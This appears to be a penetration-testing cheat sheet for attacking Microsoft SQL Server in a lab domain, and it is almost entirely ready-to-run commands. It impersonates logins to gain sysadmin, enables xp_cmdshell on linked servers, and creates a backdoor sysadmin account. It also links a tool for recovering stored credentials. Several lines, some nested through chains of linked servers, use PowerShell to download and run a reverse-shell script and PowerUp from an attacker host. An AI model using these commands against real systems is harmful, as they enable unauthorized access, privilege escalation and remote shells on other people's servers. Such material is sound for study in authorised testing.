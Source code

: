 ##### Check if the current domain user has access to a database:
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

##### Look for links to remote servers
```
Get-SQLServerLink -Instance ufc-sqldev -Verbose

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose
```

##### Check User can be impersonate
```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

##### Enabled Rpc and rpcout and DATA Access
```
EXEC sp_serveroption 'UFC-DB1', 'rpc', true;
EXEC sp_serveroption 'UFC-DB1', 'rpc out', true;
```

##### Impersonate user SQL
```
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'dbuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;');
EXEC sp_addsrvrolemember 'usfun\pastudent138', 'sysadmin'
```

##### Enable xp_cmdshell some rpcout is enabled
```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "UFC-DB1"
```

##### Check Permissions
```
select * from openquery("UFC-DB1",'select @@version')
select * from openquery("UFC-DB1",'select SUSER_NAME()')
select * from openquery("UFC-DB1",'select IS_SRVROLEMEMBER(''sysadmin'')')
select * from openquery("UFC-DB1",'select IS_SRVROLEMEMBER(''public'')')
```

##### Execute command in SQL
```
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://192.168.50.138/reverse.ps1'')"'
EXEC master..xp_cmdshell 'powershell.exe -c iex (New-Object  Net.WebClient).DownloadString(''http://192.168.50.138/PowerUp.ps1'')'
```

##### Check all users SQL
```
select * from master.sys.server_principals
```

##### Enumerate Database Li
```
select * from master..sysservers
select * from openquery("UFC-DB1",'select * from master..sysservers')
select * from openquery("UFC-DB1",'select * from  openquery("UFC-DBPROD",''select * from master..sysservers'')')
select * from openquery("UFC-DBPROD",'select * from  openquery("AC-DBREPORT.AMAZECORP.LOCAL",''select * from  master..sysservers'')')

```

##### Enumerate User Link
```
select * from master.sys.server_principals

select * from openquery("UFC-DB1",'select * from  master.sys.server_principals')

select * from openquery("UFC-DB1",'select * from  openquery("UFC-DBPROD",''select * from master.sys.server_principals'')')

select * from openquery
("UFC-DB1",'select * from openquery
("UFC-DBPROD",''select * from openquery

("AC-DBREPORT.AMAZECORP.LOCAL",''''select * from  master.sys.server_principals'''')

'')')

select * from openquery
("UFC-DB1",'select * from openquery
("UFC-DBPROD",''select * from openquery
("AC-DBREPORT.AMAZECORP.LOCAL",''''select * from openquery
("AC-DBBUSINESS",''''''''select * from  master.sys.server_principals'''''''')
'''')'')')
```

##### Execution 2 SQL
```
select * from openquery("UFC-DB1",'select * from  openquery("UFC-DBPROD",''SELECT SYSTEM_USER; exec  master..xp_cmdshell "cmd /c powershell iex(New-Object  Net.WebClient).DownloadString(''''http://192.168.50.138/reverse.ps1'''')"'')')
```

##### Execution 3 SQL
```
select * from openquery("UFC-DB1", 'select * from  openquery("UFC-DBPROD",''select * from  openquery("AC-DBREPORT.AMAZECORP.LOCAL",''''SELECT SYSTEM_USER;  exec master..xp_cmdshell "cmd /c powershell iex(New-Object  Net.WebClient).DownloadString(''''''''http://192.168.50.138/reverse.ps1'''''''')"'''')'')')
```

##### Execution 4 SQL
```
select * from openquery
("UFC-DB1",'select * from openquery
("UFC-DBPROD",''select * from openquery
("AC-DBREPORT.AMAZECORP.LOCAL",''''select * from openquery
("AC-DBBUSINESS",''''''''select * from master..sysservers;

exec master..xp_cmdshell "cmd /c powershell iex(New-Object   Net.WebClient).DownloadString(''''''''''''''''http://192.168.50.138/reverse.ps1'''''''''''''''')"

'''''''')
'''')'')')
```

##### Script show cleartext password in SQL Local
```
https://github.com/NetSPI/Powershell-Modules/blob/master/Get-MSSQLCredentialPasswords.psm1
```

##### Create user and ADD 'SYSADMIN'
```
EXECUTE('CREATE LOGIN tadmin WITH PASSWORD = ''P@ssword123'' ') AT  "UFC-DB1"
EXECUTE('sp_addsrvrolemember ''tadmin'' , ''sysadmin'' ') AT "UFC-DB1"
```

##### Consult
```
EXECUTE('exec master..xp_cmdshell "net localgroup administrators"') AT  "UFC-DB1"
```

##### Reconfigure xp_cmdshell
```
execute('sp_configure ''show advanced options'',1;RECONFIGURE;' )AT  "UFC-DB1"
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "UFC-DB1"
```

